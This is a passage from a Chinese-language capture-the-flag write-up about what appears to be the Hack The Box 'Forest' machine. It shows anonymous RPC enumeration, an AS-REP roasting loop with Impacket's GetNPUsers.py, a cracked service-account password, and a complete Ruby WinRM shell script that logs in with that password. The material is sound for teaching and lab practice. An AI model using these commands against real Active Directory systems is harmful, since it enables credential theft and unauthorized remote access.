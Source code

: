 ```shell
~$ rpcclient -U "" -N 10.10.10.161
```

![](https://p4.ssl.qhimg.com/t016138144cbbd07b76.png)

获取组列表：

![](https://p5.ssl.qhimg.com/t0100adbc0a5955dc81.png)

查看`Domain Admins`以及其中的`0x1f4`成员，并发现他是Administrator：

![](https://p2.ssl.qhimg.com/t01d1e35a802a0fe9a1.png)

## 0x03 获得低权限的shell

> 这里的思路是沿着Kerberos认证向下进行的：Kerberos是一种非常复杂的身份验证协议，但它还存在一些缺陷。对Windows域认证体系下的Kerberos认证不了解的小伙伴，可以学习知乎上的这篇文章——[初识 Windows域认证体系 Kerberos认证](https://zhuanlan.zhihu.com/p/77873456) 。
>
> 其中之一的缺陷就是使得攻击者可以从kerberos服务器请求数据，并对响应进行暴力攻击以找出用户密码,这就是AS-REP Roast攻击，可以参见这篇文章——[Roasting AS-REPs](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/) 。
>
> ![](https://p3.ssl.qhimg.com/t010acf046da3b041c3.png)

为了验证漏洞，我开始浏览Impacket工具，找到`GetNPUsers.py`：https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py 。这个脚本的功能是遍历用户列表，并找到那些`Do not require Kerberos preauthentication`即“不需要kerberos预验证”的用户。

我将所有用户保存在`users.txt`中，并执行`GetNPUsers.py`，成功获取到`svc-alfresco`账户的`TGT`hash：

```shell
~$ for user in $(cat users.txt);do ./GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}; done
```

![](https://p2.ssl.qhimg.com/t012924f4f6d812f4fb.png)

![](https://p0.ssl.qhimg.com/t013ae5e13aa0d298da.png)

下面就是破解hash，使用`hashcat`进行破解，得到明文密码为`s3rvice`:

![](https://p2.ssl.qhimg.com/t01c72e6a054f030e21.png)

现在我已经拥有了一个完整的账户认证`svc-alfresco:s3rvice`，下面就是找到交互点。在nmap执行结果中，我发现端口5985是打开的，并开启`winrm`服务。为了与该服务交互，创建了一个winrm-shell脚本：

```ruby
require 'winrm'

conn = WinRM::Connection.new(
  endpoint: 'http://10.10.10.161:5985/wsman',
  user: 'svc-alfresco',
  password: 's3rvice',
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```